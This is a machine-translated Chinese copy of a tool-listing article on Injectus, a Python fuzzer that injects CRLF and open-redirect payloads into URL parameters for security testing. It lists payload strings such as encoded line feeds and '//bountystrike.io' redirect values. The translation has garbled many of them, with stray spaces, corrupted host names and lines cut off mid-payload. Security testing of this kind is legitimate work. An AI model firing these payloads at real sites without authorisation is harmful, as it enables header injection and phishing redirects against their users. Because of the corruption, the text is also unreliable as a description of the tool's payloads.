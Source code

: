 # 注射:CRLF 和开放重定向引信

> 原文：<https://kalilinuxtutorials.com/injectus-crlf-open-redirect-fuzzer/>

[![Injectus : CRLF & Open Redirect Fuzzer](img//6a4c85dde94f7760a470724178c3c2b3.png "Injectus : CRLF & Open Redirect Fuzzer")](https://1.bp.blogspot.com/-BP4N707N3nM/XjxKE0pmo4I/AAAAAAAAEvs/JHnlTYJdPGYR6WvqMDs54L5gUTgbuZ5KwCLcBGAsYHQ/s1600/Injectus%25281%2529.png)

Injectus 是一个简单的 python 工具，它遍历一系列 URL，尝试 CRLF 和打开重定向负载。

**设计**

如果我们有以下 URL:

[https://dubell.io/?param1=value1&URL = value 2&param 3 = value 3](https://dubell.io/?param1=value1&url=value2&param3=value3)

**对于 CRLF 攻击**，对于每 n 个参数，Injectus 会将每个有效载荷注入一个参数的值。例如，Injectus 将使用上面的 URL 创建以下列表:

https://dubell.io/?param 1 = % % 0a 0 abounty:strike & URL = value 2 & param 3 = value 3
https://dubell.io/?param1=%0abounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%0d%0abounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%0dbounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%23%0dbounty:strike&URL = value 2&param 3 = value 3
https://dubell.io/?param1=%25%30%61bounty:strike&URL = value 2&param 3 = https://dubell.io/?param1=value1&URL = % 0d bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1&URL = % 23% 0d bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1&URL = % 25% 30% 61 bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1&URL = % 30a bounty:strike&param 3 = value 3
https://dubell.io/?param1=value1& URL = value 2&param 3 = % 25% 30% 61 bounty:strike
https://dubell.io/?param1=value1&URL = value 2&param 3 = % 30 abounty:strike
https://dubell.io/?param1=value1&URL = value 2&param 3 = % 250 abounty:strike
https://dubell.io/?param1=value1&URL = value 2&param 3 = % 25250 abounty:strike
https://dubell.io/?param1=value1&URL = 1

**也读作-[mass dns:用于批量查找的高性能 DNS 存根解析器&侦察](https://kalilinuxtutorials.com/massdns-a-high-performance-dns-stub-resolver-for-bulk-lookups-reconnaissance/)**

正如您所看到的，每个 CRLF 负载都被注入到第一个参数的值中。一旦循环完成，Injectus 将把每个有效载荷注入第二个参数，依此类推。一旦注入了所有参数，列表就完整了。

如果没有查询参数，Injectus 将简单地将每个有效负载附加到 URL，如下所示:

https://dubell.io/some/path/%%0a0abounty:strike
https://dubell.io/some/path/%0abounty:strike
https://dubell.io/some/path/%0d%0abounty:strike
https://dubell.io/some/path/%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%25%30%61bounty:strike
https://dubell.io/some/path/%25%30abounty:strike
https://du bell . io/some/path/% 250 abounty:strike
https://du bell . io/some/path/% 25250 abounty:strike
https://du bell . io/some/path/% 3f % 0d bounty:strike
https://du bell . io/some/path/% 3f %

**注入开放重定向净荷**时，Injectus 只会在存在包含典型重定向关键字的查询/路径参数的情况下注入净荷，例如`**url**`。注入到以下网址 **`https://dubell.io/?param1=value1&url=dashboard&param3=value3` :**

https://dubell . I/？param 1 = value 1 & URL = $ 2f % 2 fbountytrique . io % 2f % 2 fparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2f $ 2 fbountytries . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2 fbountytries。io % 2f % 2fparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2 fbountytries。io//param 3 = value 3
https://dubell . io/？param 1 = value 1&URL = % 2 fbountytries . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =///bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =////bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =//bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =/\ x88 ountytries . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =/bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL =/http://bountystrik . ioparam 3 = value 3
https://dubell . io/？param 1 = value 1&URL = bountystrik . ioparam 3 = value 3

URL 包含查询参数`url`，因此 Injectus 会将有效负载注入到该参数中。

使用路径参数的示例。原始网址是`**https://dubell.io/some/path/that/redirect/dashboard**`:

https://du bell . io/some/path/that/redirect/$ 2f % 2f county strike . io % 2f % 2f
https://du bell . io/some/path/that/redirect/% 2f county strike . io
https://du bell . io/some/path/that/redirect/% 2f county strike . io % 2f
https://du bell . io/some/path/that/redirect/% 2f county strike . io

和以前一样，如果没有找到查询参数或路径参数，Injectus 将简单地将每个有效负载附加到 URL:

https://dubell . io/$ 2f % 2 fbountytrique . io % 2f % 2f
https://dubell . io/% 2f $ 2 fbountytrique . io
https://dubell . io/% 2 fbountytrique . io % 2f % 2f
https://dubell . io/% 2 fbountytrique . io
https://dubell . io/% 2 fbountytrique

**安装**

**pip 3.7 install-r requirements . txt–用户**

[**Download**](https://github.com/BountyStrike/Injectus)